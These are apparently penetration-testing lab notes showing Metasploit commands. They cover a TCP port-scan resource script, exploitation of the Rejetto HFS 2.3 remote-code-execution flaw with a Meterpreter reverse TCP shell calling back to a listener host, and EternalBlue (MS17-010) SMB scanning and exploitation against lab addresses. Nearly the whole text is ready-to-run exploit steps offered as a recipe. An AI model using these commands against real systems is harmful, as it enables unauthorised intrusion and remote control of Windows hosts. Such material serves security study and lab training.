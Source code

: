 **Script 2**

```bash
kali@kali> portscan.rc
```

```
use auxiliary/scanner/portscan/tcp
set rhosts 10.10.10.7
run
```

```bash
kali@kali> msfconsole -r portscan.rc
```

### Windows : HTTP File Server

* An HTTP File Server (HFS) is a web server that is designed for file & document sharing.
* HFS typically run on TCP port 80 and utilize the HTTP protocol for underlying communication
* Rejetto HFS is a popular free and open source HFS that can be setup on both Windows and Linux.
* Rejetto HFS V2.3 is vulnerable to a RCE attack.
* MSF has an exploit module that we can utilize to gain access to the target system hosting the HFS.

```bash
kali@kali> service postgresql start && msfconsole

msf6> setg rhosts 10.3.27.4
msf6> db_nmap -sS -sV -O 10.3.27.4
msf6> search type:exploit name:rejetto
msf6> use 0
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> set lhost 10.10.9.2
msf6> run

meterpreter> sysinfo
```

### Windows : MS17-010 SMB (EternalBlue)

```bash
kali@kali> service postgresql start && msfconsole

msf6> workspace -a eternalblue
msf6> db_nmap -sS -sV -O 10.10.10.7
msf6> services

msf6> search type:auxiliary EternalBlue
msf6> use auxiliary/scanner/smb/smb_ms17_010
msf6> set rhosts 10.10.10.7
msf6> run

msf6> search type:exploit EternalBlue
msf6> use exploit/windows/smb/ms17_010_eternalblue
msf6> set rhosts 10.10.10.7
msf6> run

meterpreter> sysinfo
```
